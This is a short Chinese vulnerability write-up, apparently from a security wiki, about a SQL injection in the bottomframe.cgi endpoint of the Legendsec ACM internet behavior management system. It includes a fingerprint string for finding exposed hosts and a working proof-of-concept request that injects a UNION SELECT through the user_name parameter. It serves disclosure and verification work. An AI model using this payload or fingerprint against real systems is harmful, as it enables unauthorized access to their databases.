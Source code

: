 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

<a-checkbox checked>网御 ACM上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"scripts/webcommon.js"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1663994453807-0fa60804-9c2a-41bc-92b4-778b8f02afd0.png)

验证POC

```sql
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![img](/assets/PeiQi-Wiki/img/1663994495576-74ca5671-1b50-4cd9-b894-0de7277e073b.png)